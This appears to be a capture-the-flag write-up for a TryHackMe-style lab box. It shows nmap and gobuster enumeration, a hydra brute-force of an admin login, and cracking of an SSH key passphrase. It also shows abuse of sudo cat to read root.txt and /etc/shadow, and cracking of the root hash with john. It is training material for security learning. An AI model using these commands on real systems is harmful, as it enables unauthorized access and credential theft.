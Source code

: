 #### 1. Scanning

`nmap -Pn -A -T4 10.10.63.60`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.40 seconds
```


#### 2.Gobuster

`gobuster dir -u http://10.10.63.60 -w /usr/share/wordlists/dirb/common.txt -x php,txt,html -t 30`

```  
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.63.60
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2021/01/31 10:13:32 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.html (Status: 403)
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.php (Status: 403)
/.hta (Status: 403)
/.hta.php (Status: 403)
/.hta.txt (Status: 403)
/.hta.html (Status: 403)
/admin (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2021/01/31 10:16:17 Finished
===============================================================
```

The only interesting directory is `/admin`, with a username/password fields to type. 



#### 3. Bruteforcing a password

Let's try to find a password for `admin` using hydra. 
However, first of all we should check what message shows up when password/username is not correct and intercept a line corresponding for credentials in Burp.

A final command is:

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.63.60 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -V`

After long time waiting I get `admin:xavier`



#### 4. Accessing /admin

I access website with found credentials and find a web flag, as wel as private key:

```


-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,E32C44CDC29375458A02E94F94B280EA

JCPsentybdCSx8QMOcWKnIAsnIRETjZjz6ALJkX3nKSI4t40y8WfWfkBiDqvxLIm
UrFu3+/UCmXwceW6uJ7Z5CpqMFpUQN8oGUxcmOdPA88bpEBmUH/vD2K/Z+Kg0vY0
BvbTz3VEcpXJygto9WRg3M9XSVsmsxpaAEl4XBN8EmlKAkR+FLj21qbzPzN8Y7bK
HYQ0L43jIulNKOEq9jbI8O1c5YUwowtVlPBNSlzRMuEhceJ1bYDWyUQk3zpVLaXy
+Z3mZtMq5NkAjidlol1ZtwMxvwDy478DjxNQZ7eR/coQmq2jj3tBeKH9AXOZlDQw
UHfmEmBwXHNK82Tp/2eW/Sk8psLngEsvAVPLexeS5QArs+wGPZp1cpV1iSc3AnVB
VOxaB4uzzTXUjP2H8Z68a34B8tMdej0MLHC1KUcWqgyi/Mdq6l8HeolBMUbcFzqA
vbVm8+6DhZPvc4F00bzlDvW23b2pI4RraI8fnEXHty6rfkJuHNVR+N8ZdaYZBODd
/n0a0fTQ1N361KFGr5EF7LX4qKJz2cP2m7qxSPmtZAgzGavUR1JDvCXzyjbPecWR
y0cuCmp8BC+Pd4s3y3b6tqNuharJfZSZ6B0eN99926J5ne7G1BmyPvPj7wb5KuW1
yKGn32DL/Bn+a4oReWngHMLDo/4xmxeJrpmtovwmJOXo5o+UeEU3ywr+sUBJc3W8
oUOXNfQwjdNXMkgVspf8w7bGecucFdmI0sDiYGNk5uvmwUjukfVLT9JPMN8hOns7
onw+9H+FYFUbEeWOu7QpqGRTZYoKJrXSrzII3YFmxE9u3UHLOqqDUIsHjHccmnqx
zRDSfkBkA6ItIqx55+cE0f0sdofXtvzvCRWBa5GFaBtNJhF940Lx9xfbdwOEZzBD
wYZvFv3c1VePTT0wvWybvo0qJTfauB1yRGM1l7ocB2wiHgZBTxPVDjb4qfVT8FNP
f17Dz/BjRDUIKoMu7gTifpnB+iw449cW2y538U+OmOqJE5myq+U0IkY9yydgDB6u
uGrfkAYp6NDvPF71PgiAhcrzggGuDq2jizoeH1Oq9yvt4pn3Q8d8EvuCs32464l5
O+2w+T2AeiPl74+xzkhGa1EcPJavpjogio0E5VAEavh6Yea/riHOHeMiQdQlM+tN
C6YOrVDEUicDGZGVoRROZ2gDbjh6xEZexqKc9Dmt9JbJfYobBG702VC7EpxiHGeJ
mJZ/cDXFDhJ1lBnkF8qhmTQtziEoEyB3D8yiUvW8xRaZGlOQnZWikyKGtJRIrGZv
OcD6BKQSzYoo36vNPK4U7QAVLRyNDHyeYTo8LzNsx0aDbu1rUC+83DyJwUIxOCmd
6WPCj80p/mnnjcF42wwgOVtXduekQBXZ5KpwvmXjb+yoyPCgJbiVwwUtmgZcUN8B
zQ8oFwPXTszUYgNjg5RFgj/MBYTraL6VYDAepn4YowdaAlv3M8ICRKQ3GbQEV6ZC
miDKAMx3K3VJpsY4aV52au5x43do6e3xyTSR7E2bfsUblzj2b+mZXrmxst+XDU6u
x1a9TrlunTcJJZJWKrMTEL4LRWPwR0tsb25tOuUr6DP/Hr52MLaLg1yIGR81cR+W
-----END RSA PRIVATE KEY-----
```

I copy it to my machine, name as `id_rsa` and give correct permissions `chmod 600 id_rsa`

Next step worth to check would be launching ssh2john and cracking it as probably there is a passphrase inside.

The command is:

`ssh2john id_rsa > passphrase`
                                                                                

Once done, I launched john:

`john --wordlist=/usr/share/wordlists/rockyou.txt passphrase`

and  found a passphrase:

`rockinroll       (id_rsa)`


Once I have passphrase I can ssh to machine as `john`  using his private key - which is a username we found in `/admin` directory

`ssh -i id_rsa john@10.10.63.60`

and I am in



#### 5. Escalation to root

First of all I read `user.txt`

```
john@bruteit:~$ ls -al
total 40
drwxr-xr-x 5 john john 4096 Sep 30 14:11 .
drwxr-xr-x 4 root root 4096 Aug 28 14:47 ..
-rw------- 1 john john  394 Sep 30 14:11 .bash_history
-rw-r--r-- 1 john john  220 Aug 16 18:14 .bash_logout
-rw-r--r-- 1 john john 3771 Aug 16 18:14 .bashrc
drwx------ 2 john john 4096 Aug 16 20:25 .cache
drwx------ 3 john john 4096 Aug 16 20:25 .gnupg
-rw-r--r-- 1 john john  807 Aug 16 18:14 .profile
drwx------ 2 john john 4096 Aug 16 20:25 .ssh
-rw-r--r-- 1 john john    0 Aug 16 19:04 .sudo_as_admin_successful
-rw-r--r-- 1 root root   33 Aug 16 18:56 user.txt
john@bruteit:~$ cat user.txt
THM{a_password_is_not_a_barrier}
```

Then type `sudo -l` to check what commands he can run as sudo:

```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

We can run `cat` so it is easy to get `root.txt`

```
sudo -u root /bin/cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```


#### 6. Getting root's password

There was also a need to get root's password so I read `/etc/shadow` 

```
$ sudo -u root /bin/cat /etc/shadow
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
thm:$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ.:18489:0:99999:7:::
sshd:*:18489:0:99999:7:::
john:$6$iODd0YaH$BA2G28eil/ZUZAV5uNaiNPE0Pa6XHWUFp7uNTp2mooxwa4UzhfC0kjpzPimy1slPNm9r/9soRw8KqrSgfDPfI0:18490:0:99999:7:::
```

Then save `$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.` as a file and crack it with john:

`john --wordlist=/usr/share/wordlists/rockyou.txt rootpass.txt`


```
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football         (?)
1g 0:00:00:00 DONE (2021-01-31 11:15) 5.882g/s 1505p/s 1505c/s 1505C/s 123456..freedom
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```


